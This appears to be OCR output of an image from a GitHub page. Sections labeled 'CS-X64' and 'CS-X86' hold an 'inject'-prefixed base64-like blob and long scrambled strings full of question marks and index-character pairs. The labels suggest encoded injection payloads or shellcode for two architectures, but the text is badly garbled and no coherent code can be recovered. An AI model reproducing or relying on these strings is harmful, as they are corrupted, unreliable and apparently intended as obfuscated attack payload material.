 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsadf48|2?,?5;6,f??;10,?Y;14??,r;????1????8,.;??22???,??8;???26???,t;????30,@;??34????,@;?38,m??;????42,i????;46???,t;50??,2;54?,???0;58,?5;6?2,????1;????66,E;????70???,Y;7???4??,?Y;78,?n??;8?2,D;8?6,s???;90,H???;94,????S;9???8???,m;10????2????,s;?106,G?;110,????z;11????4,F;1?1?8??,3;1????22,s;??126,???d?;???130,??c;1??34,?c;?138,?l;??142,????W;1????46?,???A;15?0,U;????154,?4;1????58,Y;???162???,r;1?66,a??;17???0?,h;1?7???4,d?;?17???8,??L;18???2??,?c;1???86,i;??190????,L;?|N????yD5rw????x?fgHz??Y?jL?yr?wEz.??tb0??8L9B???tzJ????b@???xmj@v???kt????mMLr??i9cb??t????L?yf2Cl????w???03u???z5X????0R11D???LElV??2Y???V1???D??Y???mMXnN????BzD??mNNs????b??fqHu????vYSJ??DnmqV???usc?XC????GDd???2zwo???5Fw???ov30?aus???ru?AdxB???zcEY???McxfB????lzgcW???frC???A?s4MU?15??z4?ru???gYe????BXrs??muad????fwh????f?Lrd??3B????DLA?3Mc?3y????n??i????0?e9Lrthrf


mybest48|2????,????K;6?,k;????10,t?;14,m???;18,T?;?22,f?;26????,b??;30,V?;34,6??;38?,???,;?4??2,r;4???6,o;5???0,H;????54,6;??58,m??;6???2,5;????66,2;???70,??V;7?4,??F??;78,J??;???82,G;?86,a????;90?,m;??94,s;???98,H;????1??02,B;?1??06???,F;1???1?0,?X;1???1????4,X;1?1?8,??G;1???22,t;????126????,a;1?3????0,u?;134???,Z;????138??,Q;1????42??,J???;1???46,???L;??150,s???;??1?54,v;???158,??w;??162???,D??;???166?,?h;1?70???,N;17??4,??%????;1??7????8,4;1??82,r;??186,E?;???190,???j;?|N??yDK???rwxk??gHz??t????jLymw????Ez???Ttb0f????L9Bb?z???JbVx??mj6???vk??t,MLr??r?9????c????bo??Lyf???HClw????63???uz????mX0R?51DL????2lV????2VV1???DFm????M??XJ?NB?zG???mN?Nabf??q???mu???v?Ys????JD???nHqVu????BcXC????FD???d???2Xwo5????Xwo???v????G0au?tru?A???a????xBzu???EYM???Z????xfBQz?gcJ?f??rCL??s4Ns6??bBvL???0?g????w???2uvD???okx?h4blN????P3f%??Mun4m???bxrj???H???BE?G????Z9jyesano
